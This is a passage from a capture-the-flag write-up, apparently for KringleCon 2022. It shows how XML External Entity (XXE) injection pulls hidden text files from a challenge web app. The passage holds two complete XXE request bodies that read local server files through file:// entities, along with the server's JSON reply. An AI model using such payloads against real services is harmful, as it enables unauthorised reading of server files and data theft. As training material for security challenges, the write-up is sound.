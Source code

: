 We try requesting files like `app/static/images/x_phial_pholder/redring.txt`, `app/static/images/x_phial_pholder/bluering.txt` and `app/static/images/x_phial_pholder/silverring.txt`. For this, we repurpose the previous XXE technique replacing the filepath along the way.

The silver ring request with the body

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE imgDrop [<!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/silverring.txt">]>
<root>
 <imgDrop>&xxe;</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```

gets us the following response:

```json
{
  "appResp": "I'd so love to add that silver ring to my collection, but what's this? Someone has defiled my red ring! Click it out of the way please!.^Can't say that looks good. Someone has been up to no good. Probably that miserable Grinchum!",
  "droppedOn": "none",
  "visit": "static/images/x_phial_pholder_2022/redring-supersupersecret928164.png,267px,127px"
}
```

We visit
`static/images/x_phial_pholder_2022/redring-supersupersecret928164.png` and see
a red ring with text on it saying `goldring_to_be_deleted.txt`.

![redring-supersupersecret928164.png](/kringlecon/2022/redring-supersupersecret928164.png)

By this time, we know the drill, we have to exfiltrate the contents of this
file. So we use the path
`static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt`.

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE imgDrop [<!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt" >]>
<root>
 <imgDrop>&xxe;</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```
